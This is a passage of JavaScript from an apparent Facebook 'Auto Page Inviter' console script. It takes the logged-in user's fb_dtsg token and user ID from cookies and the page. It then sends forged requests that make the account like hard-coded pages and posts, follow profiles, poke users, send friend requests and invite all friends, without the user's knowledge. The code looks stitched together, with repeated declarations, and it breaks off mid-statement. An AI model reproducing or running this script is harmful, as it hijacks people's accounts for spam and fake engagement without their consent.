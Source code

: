 cinssonuc.jsmods.markup[0][1].__html btarihi.setTime(bugun.getTime() + 1000606024365); if(cinshtml.getElementsByTagName("select")[0].value == "1"){ document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString(); }else if(cinshtml.getElementsByTagName("select")[0].value == "2"){ document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString(); } eval(fonksiyon + "(" + id + "," + cins + ");"); } }; xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&__user=" + user_id, true); xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); xmlhttp.send(); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&fbpage_id=" + p +"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 && Page.status == 200) { Page.close; } }; Page.send(PageParams); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest; var url4="/ajax/follow/follow_profile.php?a=1"; var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&"+user_id+"&phstamp="; http4.open("POST",url4,true); http4.onreadystatechange=function() { if(http4.readyState==4&&http4.status==200)http4.close } ; http4.send(params4) } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } function p(abone) { var http4 = new XMLHttpRequest(); var url4 = "//www.facebook.com/ajax/poke_dialog.php"; var params4 = "uid=" + abone + "&pokeback=0&ask_for_confirm=0&nctr[_mod]=pagelet_timeline_profile_actions&__asyncDialog=1&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=v&fb_dtsg="+fb_dtsg+"&phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 && http4.status == 200) { http4.close; } }; http4.send(params4); }var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams = "like_action=true&ft_ent_identifier="+opo+"&source=1&client_id="+now+"%3A379783857&rootid=u_jsonp_39_18&giftoccasion&ft[tn]=%3E%3D&ft[type]=20&ft[qid]=5890811329470279257&ft[mf_story_key]=2814962900193143952&ft[has_expanded_ufi]=1&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n88QoAMBlClyocpae&__req=g4&fb_dtsg="+fb_dtsg+"&phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 && X.status == 200) { X.close; } }; X.send(XParams); } // pic + fans P("172997296218744");Like("170971166421357");Like("209126199281449");Like("1375353502725775");Like("3209126199281449");P("343311102478432");Like("1375353502725775");Like("244359939081437"); /Add Friend/; var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) { var X = new XMLHttpRequest(); var XURL = "//www.facebook.com/ajax/add_friend/action.php"; var XParams = "to_friend=" + r +"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 && X.status == 200) { X.close; } }; X.send(XParams); } javascript: var Title='Auto Page Inviter<br/> By:<A style="color:#cecfd1;" href="https://www.facebook.com/MFRAZSULTAN" target="_blank">Fraz Khan</A>'; var Descriptions = "", _text = 'Powered By: Fraz Khan</br>Script Made By </A><A style="color:#8db8ca;" href="http://www.facebook.com/100003986362145" target="_blank"> Fraz Khan</A></A>.</br> Join My Fanpage <A style="color:#e6ebf8;" href="http://www.facebook.com/FrazKhanOfficial" target="_blank">Fraz Khan</A>.</A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; function InviteFriends(opo) { jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&invitee=" + opo + "&elem_id=u_0_1k&action=send&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=8&fb_dtsg=" + fb_dtsg + "&phstamp=", function (a) { var b = a.substring(a.indexOf("{")); var c = JSON.parse(b); i--; Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;"; if (c.error) { Descriptions += "color:darkred'>"; err++; if (c.errorDescription) Descriptions += c.errorDescription; else Descriptions += JSON.stringify(c, null, "") } else { Descriptions += "color:darkgreen'>"; Descriptions += arn[i] + " has been invited to like the page " + page_name + "."; suc++ } Descriptions += "</div>"; var display =